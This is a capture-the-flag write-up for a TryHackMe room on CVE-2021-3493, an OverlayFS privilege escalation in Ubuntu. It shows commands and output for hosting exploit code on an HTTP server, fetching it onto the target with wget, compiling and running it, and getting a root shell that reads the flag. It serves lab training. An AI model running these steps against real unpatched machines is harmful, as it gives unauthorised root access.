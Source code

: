 # Room
https://tryhackme.com/room/overlayfs

# Task 1 - What is OverlayFS
OverlayFS is a Linux kernel module that allows the system to combine several mount points into one.  It is often used with live USB and other specialist applications

# Task 2 - CVE-2021-3493 - OverlayFS Exploit
Info
* https://ssd-disclosure.com/ssd-advisory-overlayfs-pe/

The OverlayFS module is installed by default on Ubuntu 1804 server

Practical
* Deploy vulnerable VM
* Connect with SSH
* Transfer exploit code to vulnerable VM
  * Download code https://ssd-disclosure.com/ssd-advisory-overlayfs-pe/
  * Spin up local HTTP server for transfer: sudo python3 -m http.server 80
  * From vulnerable VM grab code: wget http://1.2.3.4/exploit.c
* Compile exploit code on vulnerable VM
  * gcc exploit.c -o exploit
* Flag exploit as executable
  * chmod +x exploit
* Run exploit
  * ./exploit

```
sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.171.239 - - [22/May/2021 18:17:29] "GET /exploit.c HTTP/1.1" 200 -
```
```
overlay@overlayfs:~$ wget http://1.2.3.4/exploit.c                                                                                                         
--2021-05-22 15:17:30--  http://1.2.3.4/exploit.c                                                                                                          
Connecting to 1.2.3.4:80... connected.                                                                                                                     
HTTP request sent, awaiting response... 200 OK                                                                                                                 
Length: 3560 (3.5K) [text/x-csrc]                                                                                                                              
Saving to: ‘exploit.c’                                                                                                                                         
                                                                                                                                                               
exploit.c                               100%[==============================================================================>]   3.48K  --.-KB/s    in 0.001s   
                                                                                                                                                               
2021-05-22 15:17:30 (3.94 MB/s) - ‘exploit.c’ saved [3560/3560]    
```
```
overlay@overlayfs:~$ gcc exploit.c -o exploit
overlay@overlayfs:~$ chmod +x exploit
overlay@overlayfs:~$ ./exploit
bash-4.4# whoami
root
bash-4.4# cat /root/flag.txt
thm{[removed]}
```

# Task 3 - Further reading
More about OverlayFS
* https://yagrebu.net/unix/rpi-overlay.md
* https://wiki.archlinux.org/title/Overlay_filesystem
More about the exploit
* https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-3493
* https://ssd-disclosure.com/ssd-advisory-overlayfs-pe/